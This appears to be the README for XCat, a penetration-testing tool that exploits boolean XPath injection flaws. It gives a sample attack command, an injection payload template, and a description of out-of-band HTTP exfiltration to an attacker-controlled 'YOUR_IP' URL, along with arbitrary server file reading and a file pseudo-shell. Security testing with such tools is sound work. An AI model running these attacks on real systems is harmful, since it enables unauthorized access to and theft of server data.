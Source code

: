 XCat
====

XCat is a command line program that aides in the exploitation of XPath injection vulnerabilities.
It boasts a wide range of features and can utilize the more advanced features of the XPath 2.0 specification (pattern matching, unicode normilization and even http requests) or gracefully degrade to using XPath 1.0 if they are not available.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request) and it requires you to manually identifiy the exploit first, this does not do that for you.

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* Small and lightweight (only dependency is [Twisted](http://www.twistedmatrix.com))
* Parallel requests
* XPath 2.0 supported (with graceful degrading to 1.0)
* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)
* Arbitrarily read text files on the servers file system via crafted SYSTEM entities

Examples
--------
If you run a windows machine you can install IronPython and start the example application (example_application/ironpython_site.py).
The simplest command you can run on this site is:

`python xcat.py --true "Book found" --arg "title=Bible" --method POST --autopwn http://localhost:80`

You have to specify a condition keyword or HTTP status code (true, false, error), an argument for the attack to be appended to and a HTTP method to use.
The --autopwn flag will make xcat automatically detect more exotic features (xpath version, quote character and various out of bound attacks):
    
    XCat version 0.7
      * Automatically detecting available features...
        * Detecting quote: "
        * XPath Version: 2
        * OOB HTTP Support:
          * 10.10.10.132:80: Success
        * Entity Injection Retrieval: Supported
     Exploiting...

Usage
-----
    usage: xcat.py [-h] [--method {GET,POST}] [--arg POST_ARGUMENT]
                   [--true TRUE_KEYWORD | --false FALSE_KEYWORD | --error ERROR_KEYWORD]
                   [--true-code TRUE_CODE | --false-code FAIL_CODE | --error-code ERROR_CODE]
                   [--autopwn] [--schema-only] [--quotecharacter QUOTE_CHARACTER]
                   [--executequery EXECUTEQUERY] [--max_search SEARCH_LIMIT]
                   [--timeout TIMEOUT] [--stepsize STEP_SIZE]
                   [--normalize {NFD,NFC,NFDK,NFKC}] [--xversion {1,2,auto}]
                   [--lowercase] [--regex] [--connectback CONNECTBACK]
                   [--notfoundstring NOTFOUNDCHAR] [--fileshell] [--getcwd]
                   [--useragent USER_AGENT] [--timeit] [--ignorecomments]
                   [--codepointstart CODEPOINTSTART]
                   URL

### Simple usage with the example application
Check out the [readme](src/example_application) to try out XCat with the provided example application.

Altering the payload
--------
XCat will use a set of payloads to retrieve the target document. By default the payload is tacked onto the end of the --arg argument (the actual POST/GET parameters sent to the server). This will work for simple AND based injection vulnerabilities, but if you need more control then you can wrap the payload XCat generates into your own. This is simple to do - simply include a {0} in the --arg argument to have XCat insert its payload there. For example the injection might require an OR instead of an AND, using --arg "username=x' or ('1'='1{0}') or '1'='1" will work as the payload generated by xcat will replace the {0}.

HTTP Postback / doc function
----------------------------
Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP server within the program which listens on a specified port and by then calling the doc() function with the currently targetted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your IP (requires the port to be forwarded and/or a public IP) in the following format:

	http://YOUR_IP/?q=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using the --fileshell flag and enter any file path.


[![Bitdeli Badge](https://d2weczhvl823v0.cloudfront.net/orf/xcat/trend.png)](https://bitdeli.com/free "Bitdeli Badge")

